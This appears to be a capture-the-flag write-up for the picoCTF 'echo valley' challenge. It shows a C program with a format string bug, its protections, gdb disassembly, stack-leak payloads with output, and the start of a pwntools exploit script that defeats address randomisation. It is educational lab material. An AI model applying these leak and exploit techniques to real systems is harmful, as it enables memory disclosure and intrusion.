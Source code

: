 # picoCTF echo valley 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }

    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}

int main()
{
    echo_valley();
    return 0;
}
```

```bash
$ checksec --file=valley
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> **Full RELRO** (Relocation Read-Only) is a security feature that makes the entire Global Offset Table (GOT) of an ELF binary read-only. This prevents attackers from overwriting function pointers in the GOT.
> **stack canary** is a security mechanism, a known value placed on the stack, that helps detect stack buffer overflows. When a buffer overflows, it corrupts the canary, and a check for its integrity triggers an error, preventing potentially malicious code from executing.
> **NX** short for No eXecute, is a security feature in modern CPUs that prevents memory regions from being executed as code.
> **PIE** stands for Position Independent Executable, which means that every time you run the file it gets loaded into a different memory address. This means you cannot hardcode values such as function addresses and gadget locations without finding out where they are.


## How to exploit?

#### vulnerability
```c
printf(buf);
```

Confirming if there even is a memory leak.
```bash
$ python3 -c "import sys;sys.stdout.buffer.write(b'%p '*5)" | ./valley

Welcome to the Echo Valley, Try Shouting:
You heard in the distance: 0x7ffe91b0eee0 (nil) (nil) (nil) (nil)
EOF detected. Exiting...
```

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000000000001401 <+0>:     endbr64
   0x0000000000001405 <+4>:     push   rbp
   0x0000000000001406 <+5>:     mov    rbp,rsp
   0x0000000000001409 <+8>:     mov    eax,0x0
   0x000000000000140e <+13>:    call   0x1307 <echo_valley>
   0x0000000000001413 <+18>:    mov    eax,0x0
   0x0000000000001418 <+23>:    pop    rbp
   0x0000000000001419 <+24>:    ret
End of assembler dump.

(gdb) disassemble echo_valley
Dump of assembler code for function echo_valley:
   0x0000000000001307 <+0>:     endbr64
   0x000000000000130b <+4>:     push   rbp
   0x000000000000130c <+5>:     mov    rbp,rsp
   0x000000000000130f <+8>:     sub    rsp,0x70
   0x0000000000001313 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x000000000000131c <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001320 <+25>:    xor    eax,eax
   0x0000000000001322 <+27>:    lea    rax,[rip+0xd37]        # 0x2060
   0x0000000000001329 <+34>:    mov    rdi,rax
   0x000000000000132c <+37>:    call   0x10e0 <puts@plt>
   0x0000000000001331 <+42>:    mov    rax,QWORD PTR [rip+0x2cd8]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x0000000000001338 <+49>:    mov    rdi,rax
   0x000000000000133b <+52>:    call   0x1140 <fflush@plt>
   0x0000000000001340 <+57>:    mov    rdx,QWORD PTR [rip+0x2cd9]        # 0x4020 <stdin@GLIBC_2.2.5>
   0x0000000000001347 <+64>:    lea    rax,[rbp-0x70]
   0x000000000000134b <+68>:    mov    esi,0x64
   0x0000000000001350 <+73>:    mov    rdi,rax
   0x0000000000001353 <+76>:    call   0x1120 <fgets@plt>
   0x0000000000001358 <+81>:    test   rax,rax
   0x000000000000135b <+84>:    jne    0x1376 <echo_valley+111>
   0x000000000000135d <+86>:    lea    rax,[rip+0xd27]        # 0x208b
   0x0000000000001364 <+93>:    mov    rdi,rax
   0x0000000000001367 <+96>:    call   0x10e0 <puts@plt>
   0x000000000000136c <+101>:   mov    edi,0x0
   0x0000000000001371 <+106>:   call   0x1170 <exit@plt>
   0x0000000000001376 <+111>:   lea    rax,[rbp-0x70]
   0x000000000000137a <+115>:   lea    rdx,[rip+0xd24]        # 0x20a5
   0x0000000000001381 <+122>:   mov    rsi,rdx
   0x0000000000001384 <+125>:   mov    rdi,rax
   0x0000000000001387 <+128>:   call   0x1130 <strcmp@plt>
   0x000000000000138c <+133>:   test   eax,eax
   0x000000000000138e <+135>:   jne    0x13c1 <echo_valley+186>
   0x0000000000001390 <+137>:   lea    rax,[rip+0xd14]        # 0x20ab
   0x0000000000001397 <+144>:   mov    rdi,rax
   0x000000000000139a <+147>:   call   0x10e0 <puts@plt>
   0x000000000000139f <+152>:   nop
   0x00000000000013a0 <+153>:   mov    rax,QWORD PTR [rip+0x2c69]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x00000000000013a7 <+160>:   mov    rdi,rax
   0x00000000000013aa <+163>:   call   0x1140 <fflush@plt>
   0x00000000000013af <+168>:   nop
   0x00000000000013b0 <+169>:   mov    rax,QWORD PTR [rbp-0x8]
   0x00000000000013b4 <+173>:   sub    rax,QWORD PTR fs:0x28
   0x00000000000013bd <+182>:   je     0x13ff <echo_valley+248>
   0x00000000000013bf <+184>:   jmp    0x13fa <echo_valley+243>
   0x00000000000013c1 <+186>:   lea    rax,[rip+0xcf9]        # 0x20c1
   0x00000000000013c8 <+193>:   mov    rdi,rax
   0x00000000000013cb <+196>:   mov    eax,0x0
   0x00000000000013d0 <+201>:   call   0x1110 <printf@plt>
   0x00000000000013d5 <+206>:   lea    rax,[rbp-0x70]
   0x00000000000013d9 <+210>:   mov    rdi,rax
   0x00000000000013dc <+213>:   mov    eax,0x0
   0x00000000000013e1 <+218>:   call   0x1110 <printf@plt>
   0x00000000000013e6 <+223>:   mov    rax,QWORD PTR [rip+0x2c23]        # 0x4010 <stdout@GLIBC_2.2.5>
   0x00000000000013ed <+230>:   mov    rdi,rax
   0x00000000000013f0 <+233>:   call   0x1140 <fflush@plt>
   0x00000000000013f5 <+238>:   jmp    0x1331 <echo_valley+42>
   0x00000000000013fa <+243>:   call   0x1100 <__stack_chk_fail@plt>
   0x00000000000013ff <+248>:   leave
   0x0000000000001400 <+249>:   ret
End of assembler dump.
```

On leaking further stack addresses, we can see there are addresses of main and return address of echo_valley on 27th and 21st positions.
```bash
python3 -c "import sys;sys.stdout.buffer.write(b'%p '*30)" | ./valley

Welcome to the Echo Valley, Try Shouting:
You heard in the distance: 0x7ffdbc376a60 (nil) (nil) (nil) (nil)0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070 (nil) 0x785fbe89bb663600 0x7ffdbc376c90 0x560d5c42d413 0x7ffdbc376d30 0x7f38dd2131ca 0x7ffdbc376ce0 0x7ffdbc376db8 0x15c42c040 0x560d5c42d401 0x7ffdbc376db8 0x366e2f652cc532e5 0x1
EOF detected. Exiting...
```

using position specific specifiers to further confirm this.
```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"%21$p %27$p")' | ./valley

Welcome to the Echo Valley, Try Shouting:
You heard in the distance: 0x55dbb33cf413 0x55dbb33cf401
EOF detected. Exiting...
```

Then we can use these addresses with [pwntools](https://docs.pwntools.com/en/stable/) provided address to calculate the offset which is added to binary due to PIE.

```python
from pwn import *

context.arch = "amd64"

elf = ELF("./valley")
p = process("./valley")

p.sendlineafter(b"Shout: ", b"%27$p")
main_addr = int(p.recv().decode("latin-1").split(":")[-1], 16)

offset = main_addr - elf.symbols["main"]

ret_addr = offset+0x1413
```
